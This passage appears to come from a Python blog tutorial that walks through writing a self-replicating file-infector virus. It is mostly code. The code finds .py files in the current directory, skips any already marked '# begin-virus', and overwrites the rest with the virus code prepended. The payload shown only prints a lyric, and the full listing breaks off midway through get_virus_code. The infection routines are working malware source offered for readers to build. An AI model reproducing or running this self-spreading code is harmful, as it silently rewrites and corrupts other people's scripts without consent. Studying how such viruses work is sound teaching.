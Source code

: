This routine could also be a good candidate to be written with a generator. What? You don't know generators? Let's have a look at [this interesting article](http://thepythoncorner.com/dev/iterators-generators-python/) then! ;)

And once we have the list of files to be infected, we need the infection function. In our case, we will just write our virus at the beginning of the file we want to infect, like this:

```python
def get_content_if_infectable(file):
    data = get_content_of_file(file)
    for line in data:
        if "# begin-virus" in line:
            return None
    return data

def infect(file, virus_code):
    if (data:=get_content_if_infectable(file)):
        with open(file, "w") as infected_file:
            infected_file.write("".join(virus_code))
            infected_file.writelines(data)
```

Now, all we need is to add the payload. Since we don't want to do anything that can harm the system, let's just create a function that prints out something to the console.

```python
def summon_chaos():
  # the virus payload
  print("We are sick, fucked up and complicated\nWe are chaos, we can't be cured")
```

Ok, our virus is ready! Let's see the full source code:

```python
# begin-virus

import glob

def find_files_to_infect(directory = "."):
    return [file for file in glob.glob("*.py")]

def get_content_of_file(file):
    data = None
    with open(file, "r") as my_file:
        data = my_file.readlines()

    return data

def get_content_if_infectable(file):
    data = get_content_of_file(file)
    for line in data:
        if "# begin-virus" in line:
            return None
    return data

def infect(file, virus_code):
    if (data:=get_content_if_infectable(file)):
        with open(file, "w") as infected_file:
            infected_file.write("".join(virus_code))
            infected_file.writelines(data)

def get_virus_code():

    virus_code_on = False
    virus_code = []

    code = get_content_of_file(__file__)
```